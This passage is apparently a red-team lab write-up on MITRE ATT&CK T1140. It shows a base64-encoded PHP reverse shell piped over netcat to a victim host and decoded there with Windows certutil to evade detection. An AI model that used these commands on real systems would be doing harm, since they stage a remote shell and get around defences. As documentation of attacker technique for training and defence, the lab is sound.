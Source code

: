```yaml
---
description: Defense Evasion
---
```


# T1140: Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from my attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% code title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endcode %}

Once the file is received on the victim, let's check its contents:

{% code title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode %}

![](../../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% code title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../../.gitbook/assets/certutil-decoded.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1140" %}

